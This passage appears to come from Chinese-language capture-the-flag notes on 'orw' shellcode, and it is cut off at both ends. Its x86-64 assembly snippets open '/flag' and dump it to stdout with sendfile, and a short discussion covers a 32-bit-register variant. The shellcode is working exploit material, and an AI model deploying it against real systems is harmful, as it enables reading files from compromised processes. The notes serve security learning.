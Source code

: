 ```
        mov eax, 0x02
        syscall

        mov esi, eax
        mov edx, 0
        push 0
        pop rdx
        push 1000
        pop r10
        mov eax, 0x28
        syscall
''')
```
```python
shellcode = asm('''
        jmp two
    one:
        pop rdi
        push 0
        pop rsi
        push 0
        pop rdx
        push 0x02
        pop rax
        syscall

        push rax
        pop rsi
        push 0   
        pop rdx
        push 1 
        pop rdi
        push 0x100
        pop r10
        push 0x28
        pop rax
        syscall
        jmp end
    two:
        call one
        .string "/flag" 
    end:						
''')
# 注意one那里要跳出来到end，否则死循环.....
```
## *orw—使用 32 位寄存器,不出现 64 位寄存器
> 由于只对 64 位寄存器后 32 位进行操作，而调用时候会以 64 位寄存器整体作为参数，因此获取 shellcode 执行之前寄存器状态很有必要！！！
> 无论使用常规 orw 还是编形，**这种方法都比较困难，暂时不讨论了**.....

```python
        jmp two
    one:
        pop rdi
        push 0
        pop rsi
        push 0
        pop rdx
        mov eax,0x2
        syscall

        push rax
        pop rsi
        push 1
```
